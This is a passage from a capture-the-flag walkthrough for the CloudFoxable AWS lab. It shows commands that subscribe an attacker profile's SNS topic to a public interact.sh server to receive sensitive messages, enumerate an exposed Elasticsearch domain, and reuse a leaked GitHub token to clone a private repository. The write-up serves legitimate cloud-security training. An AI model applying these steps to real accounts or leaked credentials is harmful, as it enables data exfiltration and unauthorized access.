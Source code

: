 A public interact.sh server can be used to retrieve the topic notification. With the subscription active, it can be confirmed with the resulting token on the OAST server in a request as follows &rarr;

```bash
awsn --region us-west-2 sns confirm-subscription --token "<fromrequest>" --topic-arn arn:aws:sns:us-west-2:<ACCID>:eventbridge-sns --profile attacker
```

After this, the lab will automatically send a publish message with sensitive information every 1 minute through Eventbridge schedules. This message is received on the OAST server and also gives the flag.

## Search 1 & 2

These challenges start with the `ctf-starting-user` and requires searching for an Elasticsearch domain and find a flag there. Next, it requires searching further within the ES domain to pivot beyond the Cloudfoxable environment.

To start off, the easiest way to search for the exposed ES domain is via `cloudfox` &rarr;

```bash
cloudfox aws endpoints -p cloudfoxable -v2
```

Then using `cURL`, visit the domain and listing the indices and then visit each index, in this case *webserver-logs* provided what is necessary &rarr;

```bash
curl -X GET "https://search-pat-xxxxxx.us-west-2.es.amazonaws.com/_cat/indices?v"
curl -X GET "https://search-pat-xxxxxx.us-west-2.es.amazonaws.com/webserver-logs/_search?pretty=true"
```

This gives the first flag and also has a base64 encoded token, decoding which gives a GitHub personal access token. This can be used to login to github, search for repositories and clone a repository as follows &rarr;

```bash
echo $githubtoken | gh auth login --with-token
gh auth status
gh repo list
gh repo clone cloudfoxable/super-secret-ML-stuff # login with un: cloudfoxable and pw as the PAT
cd super-secret-ML-stuff && cat main.go
```

The `main.go` file contained the second flag.

## Bastion

This challenge starts with the `ctf-starting-user` and sets the stage for SSM operations. It spins up an instance that can be connected to by `ctf-starting-user`. To get the details on the instance, the following helps &rarr;

```bash
cloudfox aws instances -p cloudfoxable -v2
```
